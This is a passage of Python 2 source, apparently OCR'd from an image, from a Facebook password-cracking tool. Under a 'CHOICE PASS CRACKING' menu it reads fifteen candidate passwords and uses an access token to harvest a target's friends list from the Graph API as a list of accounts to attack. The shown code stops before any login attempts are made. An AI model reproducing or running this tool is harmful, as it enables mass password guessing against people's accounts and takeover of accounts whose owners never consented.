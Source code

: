
    if rishu == '3':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
